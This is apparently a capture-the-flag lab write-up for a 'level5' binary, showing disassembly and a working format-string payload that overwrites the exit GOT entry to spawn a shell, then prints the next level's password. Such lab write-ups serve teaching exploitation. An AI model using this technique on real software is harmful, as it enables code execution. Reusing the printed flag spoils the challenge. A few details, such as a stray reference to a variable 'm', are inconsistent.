 Execute the *level5* binary:

```bash
./level5
abcd
```

```
abcd
```

> Note the *level5* binary reads the user input from stdin like the *level4*, *level3*, *level2* and *level1*.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x080484a7 <+0>:	    push   ebp
   0x080484a8 <+1>:	    mov    ebp,esp
   0x080484aa <+3>:	    and    esp,0xfffffff0
   0x080484ad <+6>:	    call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```

Check the *n* function called from the main:

```gdb
disass n
```

```
Dump of assembler code for function n:
...
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>    ; get the user input
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>   ; print the user input
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>     ; call the exit function
End of assembler dump.
```

> Note the *exit* function is linked dynamically (*@plt*).

Check for interisting functions:

```gdb
info functions
```

```
All defined functions:

...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
```

Check the *o* function:

```gdb
disass o
```

```
Dump of assembler code for function o:
...
   0x080484aa <+6>:	    mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>       ; execute "/bin/sh"
...
End of assembler dump.
```

This function *o* at the address __0x080484a4__ is now the goal.

Like previous levels, the *printf* call is not protected, and because the next call to *exit* is dynamic, it's possible to overwrite the address called for the *exit* function to the *o* function with a [got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) function.

To do this, need to replace the address called by the *exit@plt* at its first instruction, by the address of the *o* function:

```gdb
x/4i 0x80483d0
```

```
0x80483d0 <exit@plt>:	            jmp    DWORD PTR ds:0x8049838
0x80483d6 <exit@plt+6>:	            push   0x28
0x80483db <exit@plt+11>:	        jmp    0x8048370
0x80483e0 <__libc_start_main@plt>:	jmp    DWORD PTR ds:0x804983c
```

The address of the first jump instruction of *exit@plt* to replace is __0x8049838__.

> Not this address is stored in the *.got.plt* section (*info file*).

Check where is the first argument of printf in the stack:

```bash
echo "AAAABBBBCCCC %p %p %p %p %p %p %p %p" | ./level5
```

```
AAAABBBBCCCC 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x42424242 0x43434343 0x20702520 0x25207025
```

> The fourth parameter of the *printf* is the first character of the user input buffer (because AAAA = 0x41414141, BBBB = 0x42424242 ...)

- Put the address of the first jump instruction of the *exit@plt* at the beginning of the user input (reversed because the stack is readed in the opposite way = \x38\x98\x04\x08) for the *fgets* call.
- Add 134513824 (134513828 minus the global variable *m* address) padding characters/bytes using the *%d* format specifier for the *0x080484A4* address of the *o* function in hexadecimal.
- Add the *%n* special format specifier to put the value previous described 134513828.
- Use the *%4$...* permutation option on the *%n* special format specifier for write its value (134513828) in the fourth parameter of printf which is the start of the user input buffer.

```bash
(echo -e "\x38\x98\x04\x08%134513824d%4\$n" ; cat) | ./level5
cat /home/user/level6/.pass
```

```
...
                                                                 512
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```